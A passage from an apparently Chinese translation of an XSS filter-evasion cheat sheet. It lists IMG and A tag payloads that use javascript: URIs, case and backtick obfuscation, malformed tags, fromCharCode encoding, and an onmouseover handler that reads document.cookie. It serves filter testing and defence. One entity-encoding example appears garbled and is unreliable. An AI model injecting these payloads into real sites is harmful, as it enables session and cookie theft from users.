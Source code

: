 -------
##通过javascript指令实现的图片xss##

图片xss依靠javascript指令实现。（IE7.0不支持javascript指令在图片上下文中，但是可以在其他上下文触发。下面的例子展示了一种其他标签依旧通用的原理。）

    <IMG SRC="javascript:alert('XSS');">

-----
##无引号无分号##

    <IMG SRC=javascript:alert('XSS')>

-----
##不区分大小写的xss攻击向量##

    <IMG SRC=JaVaScRiPt:alert('XSS')>

------
##html 实体##
The semicolons are required for this to work:

    <IMG SRC=javascript:alert("XSS")>

-----
##重音符混淆##
如果你的javascript代码中需要同时使用单引号和双引号，那么可以使用重音符（`）来包裹javascript代码。它也经常会非常有用因为xss过滤代码未考虑到这个字符。

    <IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>

-----
##畸形的A标签##
跳过href属性，而直接获取xss实质攻击代码...提出被David Cross ~ 已验证在chrome浏览器

    <a onmouseover="alert(document.cookie)">xxs link</a>

此外，chrome浏览器喜欢去补全缺失的引号为你。如果你遇到阻碍那么直接省略它们吧，chrome将会正确的帮你补全缺失的引号在URL和script中。

    <a onmouseover=alert(document.cookie)>xxs link</a>

------
##畸形的IMG标签##
最早被 Begeek发现（可以短小而干净的运行于任何浏览器），这个xss向量依靠松散的渲染引擎解析IMG标签中被引号包含的字符串来实现。我猜测它最初是为了正确编码而这样实现，但这样让它更加困难去解析html。

    <IMG """><SCRIPT>alert("XSS")</SCRIPT>">

-----
##fromCharCode##
如果没有任何形式的引号被允许，你可以eval()一串fromCharCode在javascript中来创建任何你需要的xss向量。

    <IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>

-----
##默认SRC属性去绕过SRC域名检测过滤器##
这将绕过绝大多数SRC域名过滤器。插入javascript代码在任何一个事件方法同样适用于任何一个HTML标签，例如Form、Iframe、Input、Embed等等。它也允许任何该标签的相关事件去替换，例如onblur, onclick等，后面我们会附加一个可用的事件列表。由David Cross提供，Abdullah Hussam编辑。
